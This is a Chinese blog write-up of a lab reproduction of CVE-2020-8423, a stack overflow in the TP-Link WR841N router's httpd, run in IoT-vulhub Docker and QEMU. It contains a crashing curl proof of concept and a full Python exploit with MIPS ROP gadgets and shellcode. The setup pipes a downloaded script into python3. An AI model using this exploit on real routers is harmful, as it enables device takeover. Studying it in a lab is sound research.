TP-Link WR841N 栈溢出漏洞（CVE-2020-8423）
第一次搞iot相关，对mips的汇编还不是很熟，先熟悉一下搭环境，之后再去理解原理，这里记录一下环境搭建流程。虽然iot-vulhub已经都做好了docker，但在自己复现的时候还是多多少少会有些问题。
IoT-vulhub基础环境搭建
#安装pip
$ curl -s https://bootstrap.pypa.io/get-pip.py | python3
#安装docker
#命令行输docker，根据提示安装就行
# 启动 docker 服务
$ systemctl start docker
# 安装 docker-compose
$ python3 -m pip install docker-compose
先下载IoT-vulhub项目
$ git clone https://github.com/firmianay/IoT-vulhub.git
构建基础镜像
# 注意-t标签不要写错，后面不少Dockerfile根据这个名称来拉的
# 构建 ubuntu1604 基础镜像
$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 .
# 构建 binwalk 容器，方便使用
$ cd baseImage/binwalk && docker build -t firmianay/binwalk .
# 构建 qemu mips 环境
$ cd baseImage/qemu-system/mips
# 运行下载脚本
$ ./images/download.sh
# 镜像构建
$ docker build -t firmianay/qemu-system:mips .
漏洞环境搭建
漏洞环境
- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：
firmianay/ubuntu1604 -> firmianay/qemu-system:mips
漏洞镜像构建
# 先切换到相应的目录
$ cd TP-Link/CVE-2020-8423
# 使用 firmianay/binwalk 解压固件：
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/wr841nv10_wr841ndv10_en_3_16_9_up_boot(150310).bin"
# 初始化环境
$ ./init_env.sh mips
# 构建镜像
$ docker-compose -f docker-compose-system.yml build

启动环境
# 启动容器
$ docker-compose -f docker-compose-system.yml up
启动的过程有点慢

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
当系统开始不断的跳如下界面说明启动成功，接下来就可以访问http服务了。

本机访问http服务需要挂sock5代理，如下图所示，只需填socks处的主机和端口

然后就可以访问web服务啦，账号admin/admin登入

漏洞验证
根据登入之后的path和cookie就可以验证漏洞了

登陆后得到得到 cookie（如%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D）和 path（如DHJSQKMAPYZXIIXB）：
假如是在docker中访问直接按照项目给的curl命令就行
$ curl -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://192.168.2.2/DHJSQKMAPYZXIIXB/userRpm/popupSiteSurveyRpm_AP.htm?mode=1000&curRegion=1000&chanWidth=100&channel=1000&ssid='$(python -c 'print("/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''

运行完之后就访问不了了

假如是在本机验证还需要加上-x设置socks5代理参数
$ curl -x socks5://127.0.0.1:2345 -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://192.168.2.2/IXFWMIHBBQRZJFPA/userRpm/popupSiteSurveyRpm_AP.htm?mode=1000&curRegion=1000&chanWidth=100&channel=1000&ssid='$(python -c 'print("/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''
效果和上面一样

exp运行
exp.py放在system-emu/tools目录下面，需要修改path和cookie参数，以及请求头中的User-Agent参数

这个exp说实话感觉有点迷惑。。。docker环境里装了的是python3的pwntools，但是exp运行环境是python2。然后请求的时候原来脚本用的是session.get，但代理貌似没有开起来，所以我exp里又改成了request.get，因为session.get不支持socks5代理，只支持http和https代理。
修改之后的exp
#!/usr/bin/python2
from pwn import *
import requests
import urllib
context.endian = 'big'
libc_base = 0x77d2a000
sleep = 0x53CA0 #end 00053ECC
g1 = 0x000E204 #0x77F47204
#LOAD:0000E204 move $t9, $s1
#LOAD:0000E208 jalr $t9 ; sysconf
#LOAD:0000E20C li $a0, 3
g2 = 0x00037470
#LOAD:00037470 move $t9, $s2
#LOAD:00037474 lw $ra, 0x28+var_4($sp)
#LOAD:00037478 lw $s2, 0x28+var_8($sp)
#LOAD:0003747C lw $s1, 0x28+var_C($sp)
#LOAD:00037480 lw $s0, 0x28+var_10($sp)
#LOAD:00037484
#LOAD:00037484 loc_37484:
#LOAD:00037484 jr $t9 ; xdr_opaque_auth
#LOAD:00037488 addiu $sp, 0x28
g3 = 0x0000E904 #0x77f47904
#LOAD:0000E904 addiu $a1, $sp, 0x168+var_150
#LOAD:0000E908 move $t9, $s1
#LOAD:0000E90C jalr $t9 ; stat64
#LOAD:0000E910 addiu $a0, (aErrorNetrcFile+0x28 - 0x60000)
g4 = 0x00374D8
#LOAD:000374D8 move $t9, $a1
#LOAD:000374DC sw $v0, 0x4C($a0)
#LOAD:000374E0 move $a1, $a2
#LOAD:000374E4 jr $t9
#LOAD:000374E8 addiu $a0, 0x4C # 'L'
shellcode = "\x24\x0e\xff\xfd\x01\xc0\x20\x27\x01\xc0\x28\x27\x28\x06\xff\xff"
shellcode += "\x24\x02\x10\x57\x01\x01\x01\x0c\xaf\xa2\xff\xff\x8f\xa4\xff\xff"
shellcode += "\x34\x0e\xff\xff\x01\xc0\x70\x27\xaf\xae\xff\xf6\xaf\xae\xff\xf4"
shellcode += "\x34\x0f\xd8\xf0\x01\xe0\x78\x27\xaf\xaf\xff\xf2\x34\x0f\xff\xfd"
shellcode += "\x01\xe0\x78\x27\xaf\xaf\xff\xf0\x27\xa5\xff\xf2\x24\x0f\xff\xef"
shellcode += "\x01\xe0\x30\x27\x24\x02\x10\x4a\x01\x01\x01\x0c\x8f\xa4\xff\xff"
shellcode += "\x28\x05\xff\xff\x24\x02\x0f\xdf\x01\x01\x01\x0c\x2c\x05\xff\xff"
shellcode += "\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\xff\xfd\x01\xc0\x28\x27"
shellcode += "\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\x3d\x28\xaf\xae\xff\xe2"
shellcode += "\x24\x0e\x77\xf9\xaf\xae\xff\xe0\x8f\xa4\xff\xe2\x28\x05\xff\xff"
shellcode += "\x28\x06\xff\xff\x24\x02\x0f\xab\x01\x01\x01\x0c"
s0 = p32(0x11111111)
s1 = p32(g2+libc_base) # break
s2 = p32(sleep+libc_base)
payload = "/%0A"*0x55 + 2*'x' + s0 + s1 + s2
payload += p32(g1+libc_base)
payload += 'x'*28
payload += p32(g4+libc_base) #s1
payload += p32(0x33333333) #s2
payload += p32(g3+libc_base) #ra
payload += 'x'*24
payload += shellcode
def exp(path,cookie):
headers = {
"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0",
"Cookie":"Authorization=Basic{cookie}".format(cookie=str(cookie))}
params = {
"mode":"1000",
"curRegion":"1000",
"chanWidth":"100",
"channel":"1000",
"ssid":urllib.unquote(payload)
}
url="http://192.168.2.2:80/{path}/userRpm/popupSiteSurveyRpm_AP.htm".format(path=str(path))
resp = requests.get(url,params=params,headers=headers,timeout=10,proxies={'http':'socks5://127.0.0.1:2345'})
print(resp.text)
exp("AEAMATJAMXMAVVYB","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
运行之后效果图

这里的shellcode可能还有点问题，看上去感觉是执行sleep的，但是运行完exp显示的是SIGSEGV，有待考察，不过肯定栈溢出了。
流量抓取
开了代理的话就只能本地访问然后在docker容器里去抓了，结果tcpdump有问题，尝试了修复链接库，但是无果，还好之前编译过静态的tcpdump，拿过来直接用就完事了。
把编译好的tcpdump复制进容器，在容器(代理服务器)中抓流量
$ ./tcpdump -s 0 -w 1.pcap port 80
